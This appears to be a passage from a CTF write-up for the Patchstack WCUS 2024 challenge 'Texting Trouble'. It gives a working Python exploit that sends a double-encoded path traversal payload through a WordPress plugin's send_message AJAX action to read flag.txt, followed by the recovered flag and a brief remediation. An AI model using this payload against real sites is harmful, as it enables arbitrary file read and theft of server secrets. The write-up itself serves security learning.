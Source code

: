 **Steps to Exploit:**

1. This results in an Arbitrary File Read vulnerability in the send_message action, which triggers the send_message_callback function.

**Exploitation:**

```python
import requests
from urllib.parse import *

URL = 'http://100.25.255.51:9092/'

class Exploit:
	def __init__(self, url=URL):
		self.url = url

	def exploit(self):
		headers = {'Content-Type': 'application/x-www-form-urlencoded'}
		data = 'formdata=jotac-plugin-messages%5Bjot-message%5D%3DHello%26jotac-plugin-messages%5Bjot-message-type%5D%3Dsms%26jotac-plugin-messages%5Bjot-message-suffix%5D%3DBest%2Bregards%26jotac-plugin-messages%5Bjot-attachment%5D%3D%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fflag.txt&jotmemid=group-12345&sec=6AGmIzDZktwJCaQt&level=verbose'

		req = requests.post(urljoin(self.url, '/wp-admin/admin-ajax.php?action=send_message'), data=data, headers=headers)

		return req.text

if __name__ == '__main__':
	run = Exploit()
	print(run.exploit())
```

Run the exploit, and the FLAG is retrieved.
![Flag](/assets/img/Patchstack-WCUS-CTF-2024/TextingTrouble_Flag.png)

**Flag:** CTF{PSEUDOLIMITED_INCLUSION_0z471}

**Remediation:**

- Use sanitize_file_name function to prevent Path Traversal when reading local files.

Thank you for reading this article, i hope it was helpful :-D\
**Follow me on: [Linkedin], [Medium], [Github], [Youtube], [Instagram]**

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn
